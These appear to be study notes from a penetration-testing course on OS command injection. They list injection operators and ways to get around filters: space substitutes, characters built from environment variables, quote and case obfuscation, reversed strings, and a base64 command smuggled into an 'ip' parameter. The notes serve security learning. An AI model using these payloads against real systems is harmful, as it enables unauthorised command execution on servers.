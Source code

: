 Many web applications execute local Operating System commands to perform certain processes. For example, a web application may install a plugin of our choosing by executing an OS command that downloads that plugin, using the plugin name provided. If not properly filtered and sanitized, attackers may be able to inject another command to be executed alongside the originally intended command (i.e., as the plugin name), which allows them to directly execute commands on the back end server and gain control over it. This type of vulnerability is called [command injection](https://owasp.org/www-community/attacks/Command_Injection).

This vulnerability is widespread, as developers may not properly sanitize user input or use weak tests to do so, allowing attackers to bypass any checks or filtering put in place and execute their commands.

For example, the WordPress Plugin `Plainview Activity Monitor 20161228` has a [vulnerability](https://www.exploit-db.com/exploits/45274) that allows attackers to inject their command in the `ip` value, by simply adding `| COMMAND...` after the `ip` value.


##### PHP
`exec`, `system`, `shell_exec`, `passthru`, or `popen`

##### NodeJS
`child_process.exec` or `child_process.spawn` 

#### Operators:
```
%0a - new line
&
&&
|
;
```

##### Bypass spaces:
* `%09` - tab char
* `${IFS}` - variable of space and tab
* `{ls,-la}` - brace expansion
* Replace space with + or %2b

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

###### Bypass /; blacklisted:
```shell
la1n23@htb[/htb]$ echo ${PATH:0:1}
/

la1n23@htb[/htb]$ echo ${LS_COLORS:10:1}
;
```

```powershell
C:\htb> echo %HOMEPATH:~6,-11%
\

$env:HOMEPATH[0]
\

PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>

```


Shifting
```shell
la1n23@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
la1n23@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

##### Bypass blacklisted commands
linux & win:
```shell
21y4d@htb[/htb]$ w'h'o'am'i

21y4d

21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

only linux:
```bash
w\ho\am\i

who$@ami
```

windows only:
```powershell
C:\htb> who^ami
```

##### Case manipulation

```shell
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Reverse string:
```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')
```

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

Automated tools:
https://github.com/Bashfuscator/Bashfuscator
https://github.com/danielbohannon/Invoke-DOSfuscation

base64
```
ip=1.1.1.1%0bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
